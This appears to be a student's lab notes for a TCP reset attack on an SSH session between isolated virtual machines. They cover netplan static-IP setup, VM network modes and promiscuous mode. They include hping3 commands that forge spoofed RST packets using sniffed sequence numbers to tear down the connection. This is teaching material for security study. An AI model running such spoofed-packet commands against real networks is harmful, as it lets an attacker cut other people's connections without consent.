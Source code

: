 # Setup
	1) setup virtual machines
		1) add 3 machines, ssh_from, ssh_to, and a MIM machine (man in the middle)
		2) add all machine to internal network.
		3) Before changing to internal network. Make sure to download all the packages with NAT in network settings.
		4) ssh machines should have wireshark and net-tools installed, and ssh as well
			1) sudo apt install ssh
			2) sudo sytemctl enable ssh
			3) sudo systemctl start ssh
		5) attack machine needs hping3 installed
	2) Setting up network
		1) all need to be in internal network
		2) then go to /etc/netplan/01-network-manager-all and edit it to look like this. This creates a static ip address

```C
network:
  version: 2
  ethernets:
    enp0s3:
      dhcp4: no
      addresses:
        - 192.168.2.3/24 //use different ip for each machine.
      gateway4: 192.168.2.1
```
	3) After setting the static ip addersses run 'sudo netplan apply' to apply the changes
	4) Also at this stage make sure network adapter is set to internal network.
	5) try pinging all the ip addresse you set from a machine to check if everything is working
		1) ping 192.168.2.(2 - 4)


`ip a` to view the network settings
## SSH from Alice to Bob
	`ssh username@ipaddress` 
	- Now you have established a TCP connection from machine a to machine b.
	- Use wireshark to see the captured packets and there sequence numbers.
	- Note down the latest sequence numbers.
```C
sudo hping3 -R -p 22 -s <client_port> -a <clientip> -M <seq> <server_ip>
sudo hping3 -R -p 38156 -s 22 -a 192.168.1.5 -M 2422668015 -L 1269185569 192.168.1.6
````

## Network options in virtual machine
### NAT (Network address translation)
	VM shares the ip address of the host and access internet as a local client behind NAT. VM is not directly exposed to the internet.
### Bridget Networking
	VM gets a separate ip addresss than the host from the same DHCP server. VM is directly addressible from outside the host, making it exposed. 
	VM appears as another physical device that can commnunicate between other devices on the internet.
### Host-only Network
	VM gets a private ip that only host and other VM's can access. VM is not exposed to internet or outside the host.
### Internal Network
	VM can only communicate between other VM's on the host. Host can't communicate with VM.
	
	
# Promiscuous Mode
    Enables all the network to be seen by a particular machine.
    Network Adapter Behavior:
    The virtual network adapter on the VM is configured to capture all packets that pass through the virtual network interface. This means that the VM can "see" not only the traffic intended for it but also all other network traffic that is passing through the same network segment.
    - Possible in real world
    - Has to enabled in a NIC. When enabled it will recieve all the traffice in that network.
# How does promiscous mode work in REAL machines ??
    - In wifi it is abovious. Capture all packets
    - in systems using switches and routers this is not possible as the data is forwaded to only intented recepients
    - in systems using hubs this method would work for capturing packets.


``